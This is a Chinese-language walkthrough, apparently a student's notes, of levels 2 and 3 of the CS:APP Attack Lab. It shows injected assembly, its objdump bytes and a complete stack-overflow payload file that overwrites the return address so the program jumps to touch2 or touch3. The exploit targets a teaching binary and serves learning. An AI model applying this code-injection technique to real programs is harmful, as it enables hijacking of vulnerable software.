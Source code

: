    创建一个名为`2.s`的汇编文件

   ```
   movq    $0x59b997fa, %rdi  //将参数放入寄存去
   pushq   $0x4017ec         //push touch2函数的首地址
   ret                       //因此返回就会自动返回touch2的首地址
   ```

   内容如

   ```shell
   gcc -c 2.s
   objdump -d 2.o
   ```

   将汇编文件变成二进制目标文件，再通过反汇编输出

   ```
   0000000000000000 <.text>:
      0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
      7:	68 ec 17 40 00       	pushq  $0x4017ec
      c:	c3                   	retq   
   ```

   这就是指令的十六进制码

3. 这是我们遇到了一个问题再getbuf的ret的返回地址是什么，因此我们再观察当前栈的结构，发现当返回地址位当前栈帧是就会执行我们注入的指令，因此调用gdb 输出当前文件的$rsp即可，并放在最后

4. 最终的2.txt文件就是

   ```
   48 c7 c7 fa 97 b9 59 68
   ec 17 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00
   ```

### level 3

要求：返回touch3函数，同时参数为一个指向去掉0x的cookie字符串的指针，例如我的cookie是`0x59b997fa`，则字符串就是`59b997fa` .

思路：根据提示我们能想到要放到test的栈帧中，因此首先要查询test的%rsp，然后将十六进制字符串放入，同时返回到touch3函数。

说明：为什么要放到test的栈帧中能，因为当返回到touch3中会有函数进行`sub a，%rsp`就会导致test的一下的栈帧可能会被覆写。

过程：

1. 查询test的栈帧%rsp，直接调用gdb，我查到是0x5561dca8

2. 类似level 2创建一个.s的汇编文件并编译为二进制目标文件，并反编译输出。

   汇编代码内容为：

   ```
   movq  $0x5561dca8 , %rdi
   pushq $0x4018fa
   ret
   ```

